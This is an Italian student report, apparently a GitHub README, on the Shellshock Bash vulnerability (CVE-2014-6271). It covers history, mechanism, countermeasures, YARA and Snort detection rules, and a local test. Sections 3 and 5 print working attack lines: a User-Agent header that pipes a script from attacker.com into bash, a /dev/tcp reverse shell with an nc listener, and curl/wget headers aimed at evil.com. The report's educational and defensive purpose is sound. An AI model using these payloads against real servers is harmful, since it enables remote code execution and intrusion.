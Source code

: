 # **Tesina – Shellshock (CVE-2014-6271)**

---

## 1. Introduzione all’attacco/vulnerabilità

**Shellshock** è una vulnerabilità scoperta nel **settembre 2014** nella shell **Bash** (Bourne Again Shell), utilizzata nella maggior parte dei sistemi Unix/Linux.
Permetteva a un attaccante di eseguire **comandi arbitrari da remoto**, sfruttando il modo in cui Bash gestiva alcune **variabili d’ambiente**.

Questa vulnerabilità era particolarmente pericolosa nei contesti dove Bash veniva avviata automaticamente da altri servizi, ad esempio:

* Web server che usano **CGI scripts**
* Servizi **SSH** che accettano chiavi con comandi preimpostati
* **Client DHCP**
* **Cron jobs**

---

## 2. Descrizione e periodo di riferimento

* **Data di scoperta pubblica:** 24 settembre 2014
* **CVE principale:** CVE-2014-6271
* **Altri bug collegati:** CVE-2014-7169, CVE-2014-7186, CVE-2014-7187, ecc.
* **Gravità (CVSS):** 10.0 / 10
* **Sistemi colpiti:** Tutti i sistemi Unix/Linux che usano Bash in versioni vulnerabili

Shellshock ha avuto **impatto immediato e globale**, poiché la maggior parte dei server e dispositivi connessi a Internet usavano una versione di Bash affetta.
Essendo facilissima da sfruttare, è stata immediatamente integrata in tool automatici di scansione e botnet.

---

## 3. Analisi tecnica dello svolgimento dell’attacco

La vulnerabilità si basa sul comportamento di Bash quando interpreta **funzioni definite tramite variabili d’ambiente**.
Esempio:

```bash
env x='() { :; }; comando_malevolo' bash -c "echo test"
```

Bash dovrebbe definire una funzione `x`, ma in realtà esegue anche **il comando malevolo** dopo `};`, a causa di un errore nel parser.

---

### Esempio concreto: attacco via HTTP

Se un web server usa script CGI scritti in Bash, l’attaccante può inviare una richiesta come questa:

```http
GET /cgi-bin/test.sh HTTP/1.1  
Host: victim.com  
User-Agent: () { :; }; /bin/bash -c "curl http://attacker.com/backdoor.sh | bash"
```

**Risultato:** Il server scarica ed esegue un malware o una reverse shell.
Questo succede perché i web server CGI passano l’**User-Agent** come variabile d’ambiente allo script, che lo esegue con Bash.

---

## 4. Contromisure e detection

### Contromisure tecniche:

* 🔧 **Aggiornare Bash** alla versione corretta (patch disponibile dal 2014)
* 🔒 Disabilitare l'uso di **script CGI** scritti in Bash
* 🧱 Usare un **WAF** o firewall che blocchi richieste sospette con pattern noti

### Regole di detection (esempi):

* **YARA**:

```yara
rule Shellshock {
  strings:
    $a = "() { :; };"
  condition:
    $a
}
```

* **Snort (IDS)**:

```snort
alert tcp $EXTERNAL_NET any -> $HTTP_SERVERS $HTTP_PORTS (
  msg:"Shellshock exploit attempt";
  content:"() { :; };";
  http_header;
  sid:1000012;
)
```

* **Analisi dei log Apache**:
  Cerca nei log stringhe come: `() { :; };` in header HTTP sospetti

---

## 5. Indicatori di Compromissione (IOC)

### Payload utilizzati:

```bash
() { :; }; /bin/bash -i >& /dev/tcp/192.168.1.5/4444 0>&1
```
```bash
nc -lnvp 4444
```

### Header HTTP sospetti:

* `User-Agent: () { :; }; curl http://evil.com/malware.sh`
* `Referer: () { :; }; wget http://malicious.site/backdoor.sh`

### Domini noti usati negli attacchi:

* `http://malware.shellshock.org`
* `http://botnet.pwned.biz/cgi-bin/exploit.sh`

---

## 6. Fonti tecniche

* Red Hat CVE Advisory:
  [https://access.redhat.com/security/cve/cve-2014-6271](https://access.redhat.com/security/cve/cve-2014-6271)

* National Vulnerability Database (NVD):
  [https://nvd.nist.gov/vuln/detail/CVE-2014-6271](https://nvd.nist.gov/vuln/detail/CVE-2014-6271)

* CISA (ex US-CERT):
  [https://www.cisa.gov/news-events/alerts/2014/09/24/bash-command-injection-vulnerability](https://www.cisa.gov/news-events/alerts/2014/09/24/bash-command-injection-vulnerability)

* Troy Hunt – Analisi tecnica Shellshock:
  [https://www.troyhunt.com/everything-you-need-to-know-about-shellshock/](https://www.troyhunt.com/everything-you-need-to-know-about-shellshock/)

---

## 7. Extra – Test locale della vulnerabilità

Per verificare se un sistema era vulnerabile:

```bash
env x='() { :; }; echo VULNERABILE' bash -c "echo Test"
```
<img width="822" height="87" alt="image" src="https://github.com/user-attachments/assets/ffdbfdc0-8f3c-49bd-bc04-3629d0c8a235" />



Se l’output fosse stato:

```
VULNERABILE
Test
```

Il sistema è vulnerabile.
